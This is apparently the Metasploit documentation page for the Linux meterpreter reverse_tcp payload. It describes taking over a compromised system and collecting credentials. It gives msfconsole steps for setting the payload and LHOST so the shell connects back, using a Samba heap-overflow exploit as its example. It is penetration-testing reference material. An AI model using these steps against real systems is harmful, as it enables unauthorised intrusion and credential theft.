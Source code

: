 linux/x86/meterpreter/reverse_tcp is the most pouplar payload against the Linux platform. It allows
you to remotely take over the compromised system, having control of the file system, collect
sensitive information such as credentials using post modules, etc.

linux/x86/meterpreter/reverse_tcp is also the default payload for most Linux exploits.

## Vulnerable Application

linux/x86/meterpreter/reverse_tcp should work on either 32 or 64-bit Linux platforms.

## Deploying linux/x86/meterpreter/reverse_tcp

linux/x86/meterpreter/reverse_tcp can be used in two different ways.

**As an exploit payload**

Many Linux exploits support native payloads, but not always. To check this, you can use the ```info```
command on the exploit you want to use:

```
msf exploit(lsa_transnames_heap) > info

       Name: Samba lsa_io_trans_names Heap Overflow
     Module: exploit/linux/samba/lsa_transnames_heap
   Platform: Linux
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2007-05-14
...
```

If the platform field includes Linux, then that means you can use linux/x86/meterpreter/reverse_tcp
and other Linux payloads.

Sometimes, you need to select a specific target to be able to use a native Linux payload. To check
this, do:

```
show targets
```

If there is a Linux target, use that:

```
set TARGET [index]
```

To actually set the payload:

1. In msfconsole, load the exploit.
2. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
3. Set the ```LHOST``` option, which is the [IP the payload should connect back to](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).
4. Run the exploit
